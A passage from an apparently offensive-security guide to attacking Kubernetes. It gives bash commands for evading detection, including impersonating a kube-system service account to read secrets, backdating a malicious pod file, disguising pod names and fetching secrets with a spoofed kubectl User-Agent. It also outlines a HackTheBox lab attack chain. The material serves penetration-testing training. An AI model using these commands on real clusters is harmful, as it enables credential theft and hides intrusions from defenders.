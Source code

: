 
---

## Detection Evasion

### Log Avoidance
```bash
# Use system service accounts for legitimacy
kubectl --as=system:serviceaccount:kube-system:default get secrets

# Timestamp manipulation
touch -t 202301010000 malicious-pod.yaml
kubectl apply -f malicious-pod.yaml

# Resource name confusion
kubectl create pod system-node-maintenance --image=alpine:latest --restart=Never
```

### Traffic Obfuscation
```bash
# Use legitimate-looking requests
curl -sk -H "User-Agent: kubectl/v1.28.0" \
  -H "Authorization: Bearer $TOKEN" \
  $APISERVER/api/v1/namespaces/kube-system/secrets

# Blend with normal kubectl traffic
kubectl get pods --v=9  # High verbosity to mimic normal usage
```

##
##
##

## Practical Labs and Walkthroughs

### HackTheBox Kubernetes Challenges

#### Unobtainium (Insane) - Linux Machine
**Focus**: Kubernetes API exploitation, container escape, Node.js application vulnerabilities

**Key Learning Points**:
- Kubernetes API server reconnaissance and enumeration
- Service account token extraction and abuse
- Container breakout via privileged containers
- Kubectl privilege escalation techniques

**Walkthrough Resources**:
- [Official HTB Writeup](https://www.hackthebox.com/achievement/machine/1/353)
- [Community Walkthrough by IppSec](https://www.youtube.com/watch?v=lXzGPi5WpGo)
- [Detailed Technical Analysis](https://0xdf.gitlab.io/2021/08/28/htb-unobtainium.html)

**Attack Chain Summary**:
```bash
# 1. Web application enumeration reveals Kubernetes context
# 2. Extract service account tokens from application
# 3. Use tokens to enumerate Kubernetes API
# 4. Create privileged pod for container escape
# 5. Abuse kubectl permissions for privilege escalation
```

